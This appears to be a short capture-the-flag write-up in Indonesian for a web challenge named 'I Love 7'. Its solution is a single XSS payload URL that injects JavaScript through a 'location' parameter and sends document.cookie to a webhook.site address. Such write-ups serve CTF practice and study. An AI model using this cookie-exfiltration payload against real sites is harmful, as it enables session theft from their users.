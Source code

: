 # I Love 7

Description:
```
"7 * 1 = 7
7 * 2 = 14
7 * 3 = 21
7 * ? = ??

Link: xxx
Author: daffainfo"
```
### Cara Solve

* Dengan menggunakan tips bug bounty dari tweet [ini](https://twitter.com/Rhynorater/status/1696862832841916679)

```
http://app:8080/?digit=7,location=%22javascript:location.replace\x28\x22https://webhook.site/55c3d793-e738-4718-98b3-3bb9d3b5208f/?\x22%2bdocument.cookie\x29%22
```